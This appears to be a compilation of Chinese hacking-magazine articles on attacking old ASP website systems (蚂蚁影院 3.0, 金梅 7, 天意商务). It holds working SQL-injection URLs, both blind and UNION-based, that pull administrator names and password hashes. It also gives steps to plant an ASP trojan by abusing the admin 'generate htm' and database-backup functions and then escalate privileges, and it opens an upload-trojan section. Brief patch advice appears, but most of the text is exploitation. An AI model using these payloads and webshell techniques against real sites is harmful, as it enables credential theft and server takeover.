



## 三、漏洞修补

我们来查看页面代码来分析原因，分析后发现只有一个 css 文件比较有嫌疑。我们打开这个 css 文件来看，发现其中有一段对于 iframe 标签样式的定义：

```css
iframe {width:550px; height:250px; border:none;}
```

我们使用 php 中的 `htmlspecialchars` 函数来转换 html 字符，修改 loginlog.php 文件相关部分如下：

```php
<td>".htmlspecialchars($loginlog[username])."</td>
<td>".htmlspecialchars($loginlog[password])."</td>
```

## 四、思路总结

- 利用 javascript 构造自提交表单。
- 通过 cookies 获得 pauserid。
- 通过 style 属性定义 iframe 元素来得到隐藏的浮动框架。



> 编辑点评：作者的思路非常清晰，跟着测试找到跨站→写好提交跨站模板→发现模板的 css 问题→修改利用→完成攻击……

# 从蚂蚁到金盾

## 注入电影网站

寂寞的刺猬

那天看到一个电影网站，风格蛮不错……原来是蚂蚁影院 3.0。

```asp
if request("userid")<>"" then
  set rst=server.createobject("adodb.recordset")
  sql="select money,online from users where userid='"&request("userid")&"' and password='"&md5(request("pws"))&"'"
  rst.open sql,conn,1,3
  if rst.eof and rst.bof then
    response.write("<script>alert('用户名或密码错误！');history.back();</script>")
  else
    userid=request("userid")
    application("userid")=userid
    response.write("<script>alert('恢复成功你现在可以登录！');</script>")
  end if
end if
```

这段代码的意思是：如果 Userid 提交的值不为空，那么就把得到的 Userid 与 Pws 值放入 SQL 中执行……很明显的一个 SQL 注入。

如图1所示，设为显示地址栏，按 F11 查看，地址是：http://127.0.0.1/mayi/user/searchname.asp，看到检测用户名的页面是 User 目录下的 Searchname.asp，这个 User 目录我还没检测，既然这个找上门了，那就先看一下 Searchname.asp 吧！想不到这个文件中竟然也有注入点，源码如下：



```asp
if request("searchuser")<>"" then
set rs=server.createobject("adodb.recordset")
sql="select userid from users where userid='"&request("userid")&"'"
rs.open sql,conn,1,2
if rs.eof then
  response.write "<script>alert('这一用户名还未被注册可以使用');window.close();</script>"
  response.end
else
  response.write "<script>alert('这一用户名已被占用，请重新输入');history.back();</script>"
  response.end
end if
```

同样是 request("userid") 中的 Userid 未加任何过滤就放入了 SQL 语句中，又是一个明显的注入点。接着通过构造语句对用户名长度、密码长度进行猜测，并结合返回提示信息判断条件真假。

构造示例：`searchname.asp?searchuser=aa&userid=123456' and 16=(select len(pwd) from password) and '1'='1`。随后继续尝试 wantlogin.asp 页，在“用户名”栏输入测试语句，依据“恢复成功你现在可以登录”或“用户名或密码错误”提示来判断注入结果。



不成立了。这样一来，这个注入点的利用方法就水落石出了，将 And 后的“1=1”改为猜测账号及密码的语句，如果猜测对了，就出现“恢复成功你现在可以登录”提示；如出现“用户名或密码错误”则说明猜错了。



如果是输入框太小的话，那就在浏览器中输入猜测语句，如输入猜测管理员名称长度的语句：`wantlogin.asp?userid=1234564' and 8<(select len(name) from password) or '1'='1`。前面同样，按提示信息可判断用户名长度。

## 二、再攻金梅

在网上搜了一下，金梅最新版本是“金梅电影程序第七版（美化版）”，下载后查看 Wantlogin.asp 和 Searchname.asp 文件，果然也存在同样注入点。数据库表名和字段有变化，如管理员信息表为 fdg85675fd 等。

```asp
set rs=server.createobject("adodb.recordset")
sql="select review_title,reviewcount from learning where articleid="&request("id")
rs.open sql,conn,1,1
```

前面两个注入点页面都是弹出窗口，不能使用 Union 一次性拿到数据内容；但 RE.asp 中的这个注入点可使用 Union。构造语句示例：`re.asp?id=1234 union select name,2,pwd from fdg85675fd`，可快速得到管理员名称及密码。

## 三、获取权限

在网络有许多使用金梅 7.0 以下或蚂蚁 3.0 电影系统的网站中，当拿到管理员账号及密码后，若管理员密码强度不足，随着权限提升，整个网站甚至服务器都可能被控制。

为了安全起见，我都在本机进行测试。假设已破解出后台管理员名称和密码，后台默认地址是 `admin/login.asp`。金梅 7 的后台界面如图所示，有很多功能，这里只说几个要用到的地方。

- 在“电影管理”中有一项“生成 htm”，它可以生成 HTML 文件。方法是把 ASP 木马内容替换进 HTML 文件内容，点击相关按钮后可在站点目录生成页面文件（如 `Allmoive.htm`）。





- 在“系统管理”中有“备份数据”和“数据恢复”功能。这里用“备份数据”即可。备份路径可用相对路径，适合备份站内文件。



可在“当前数据库路径”输入类似 `../allmoive.htm`，数据库名可设为 `jmdcw.asp`，执行备份后会提示完成。随后访问 `/admin/backup/jmdcw.asp` 可得到 ASP 木马并继续提权。

若不能生成 HTML 文件，也可在“系统信息”中查看网站物理路径（图9），再用其他方式提权。



## 四、修补建议

- SQL 注入可通过 `replace()` 过滤单引号，或使用“SQL 通用防注入系统”统一处理（如在数据库连接文件中调用）。
- 前台生成 HTML 时，过滤 ASP 语法标记（如 `<% %>`）再转换。
- 建议取消在线备份/恢复数据库功能，改用 FTP 离线备份恢复。

> 【文章中涉及的相关工具金梅账号猜解.exe已收录在本期光盘中】

# 编读探讨

查看脚本源代码、定位注入点并手工利用是关键；应结合系统性审计（含 cookie、跨表查询、联合利用等）逐步扩大权限，这些方法更具普适性。

# 从注入到上传

# 寂寞的刺猬——天意商务程序的一些漏洞

记得偶刚学会上网时，曾抱着振兴当地经济的想法，在一些信息网站上发布商务信息，但后来由于种种原因，渐渐搁浅了。而如今，再看一些商务网站时，竟不知觉间想测试一下它们的安全性……

经过调查，偶所见的这些商业信息网站大多采用的是天意商务程序，于是就下载了一套天意商务程序（企业商务网）进行分析。



可以在很短的时间内得到数据，实在不能用 Union 的，再用“1=1”猜测法。经过测试后，Union 语句可以在这里执行。

```asp
syjh/search.asp?txtitle=jm%' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from manage_user union select * from info where showname like '%jm'
```

## 一、注入漏洞分析及利用

前一段时间分析一个整站程序时，发现对提交的搜索关键词没有过滤，直接拼接进 SQL 语句，导致注入点出现。

```asp
if datetime<>"" then
  if typeid<>"" then
    sql="select * from info where showname like '%"&request("txtitle")&"%' and flag=1 and type like '%"&request("type")&"%' ..."
  else
    sql="select * from info where showname like '%"&request("txtitle")&"%' and flag=1 ..."
  end if
end if
```



Select 查询不到内容，两个 Union 之间的 Select 用来显示管理员表内容。数字 1~24 用于和字段数匹配，并可逐步确定可显示列。



```asp
syjh/search.asp?type=jm%' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from manage_user union select * from info where type like '%jm'
```

上面的 Union 语句利用了 Request("txtitle") 或 Request("type") 的搜索提交值，构造后可得到管理员名称及密码（密码为 MD5）。

## 二、上传漏洞分析及利用

- 1. 普通用户上传 asp 木马

申请普通用户并登录后台，在多个发布信息页面寻找上传点。部分位置限制扩展名（如 jpg/gif/png/bmp），暂未直接利用，继续在其他管理页面测试。

